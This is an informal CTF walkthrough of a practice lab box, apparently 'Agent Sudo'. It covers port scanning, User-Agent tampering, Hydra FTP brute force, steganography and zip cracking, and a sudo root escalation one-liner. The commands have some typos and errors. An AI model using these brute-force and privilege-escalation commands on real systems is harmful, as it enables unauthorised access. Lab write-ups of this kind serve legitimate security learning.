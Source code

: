 SUDO-AGENT
Ip machine 10.10.8.46

First of all run the shell (/bin/bash) and we must do nmap ports

	nmap -sV -p- 10.10.8.46

It lists 3 open ports: 21(FTP), 22(SSH), 80(HTTP), after connecting to the site http://10.10.8.46
after load the page there is a hint to modify the User-agent camp, so open burpsuite.

	burpsuite

Run proxy server, open chromium and paste the http://10.10.8.46 after that we turn on the interceptor and we
intercept the packet, change the User-agent:C and forward.
the site will redirect to another page with an hint of the user in the FTP port.

So we have the name but no the password, we should bruteforce the password, and the tool for this quest
it will be Hydra and the command will be:

	       |-> /tag to insert a single user/
	       |
	hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.8.46 ftp

the following command it will send several requestes to the FTP port in order to bruteforce the password, the 
password is crystal.

In the shell we connect to the ftp:

	ftp 10.10.8.46
	USER: chris
	PASS: crystal
	ls -a
	get cutie.pnh
	get cutie-alien.jpg   (With get we download the file on the server)
	get //.txt

after downloading everything we see what are this file so we run the command exiftool:

	exiftool cutie.png

it seems that on this image there is something inside , so we use this:

	binwalk -b cutie.pnh -e

inside there will be a zip file  8702.zi but it's  encrypted, with the command:

	zip2john > zip.hash (we take the hash) john zip.hash and we recieve Alien

so we must unzip the folder and insert the password:

	file 8702.zip -> libzip version 1.5 -> search on google for unzip the folder -> 7z x 8702.zip -> passwd alien

Inside the folder there is a txt ToagentR.txt with inside a passwd like (QxjlTux) it is a base64 so we go must
change the base64 in ascii with the following command:

	echo 'QxJlTux' > base64 -d = Area51 

now we use this password for the passphrase fo the cutie.png with this command:

	steghide --extract -sf cutie.png

it will give us a txt with the passwd for the ssh, the password would be hackerrules!

	SSH james@10.10.8.46

Now we're inside we must do priviliege escalation.

	sudo -V -> for the versione 1.81.04 and we search the exploit.

online there is the following command for the exploitation:

	sudo -u /#$((0xFFFFFFFF)) /bin/bash  (it's a bufferoverflow)

we gain the root acces and we find the flag.txt
